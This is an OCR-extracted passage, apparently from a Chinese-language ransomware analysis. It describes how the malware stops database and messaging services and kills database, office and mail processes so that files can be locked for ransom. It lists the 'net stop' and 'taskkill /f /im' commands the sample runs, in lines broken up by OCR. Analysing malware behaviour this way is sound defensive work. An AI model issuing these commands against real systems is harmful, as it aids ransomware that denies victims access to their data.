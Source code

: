   
终止服务，终止了SQL Server、MySQL 、 Message Queuing、RabbitMQ等服务，禁用目标系统上的数据库和消息传递服务，以使系统无法正常运行或访问关键数据，从而迫使受害者支付赎金以恢复服务或数据访问权限。  
  
  
execute  
 net   
stop  
 mssqlserver   
  
execute  
 net   
stop  
 msmq   
  
execute  
 net   
stop  
 mysql   
  
execute  
 net   
stop  
 rabbitmq   
  
  
终止进程，包括数据库服务进程（如 msftesql.exe, sqlagent.exe, sqlbrowser.exe, sqlservr.exe, oracle.exe, mysqld.exe 等）、办公软件进程（如 excel.exe, infopath.exe, msaccess.exe, winword.exe 等）、邮件客户端进程（如 outlook.exe, thunderbird.exe 等）以及其他常见软件进程（如 steam.exe, wordpad.exe 等）。  
  
  
execute  
 taskkill /f /im msftesql.exe   
  
execute  
 taskkill /f /im sqlagent.exe   
  
execute  
 taskkill /f /im sqlbrowser.exe   
  
execute  
 taskkill /f /im sqlservr.exe   
  
execute  
 taskkill /f /im sqlwriter.exe   
  
execute  
 taskkill /f /im oracle.exe   
  
execute  
 taskkill /f /im ocssd.exe   
  
execute  
 taskkill /f /im dbsnmp.exe   
  
execute  
 taskkill /f /im synctime.exe   
  
execute  
 taskkill /f /im mydesktopqos.exe   
  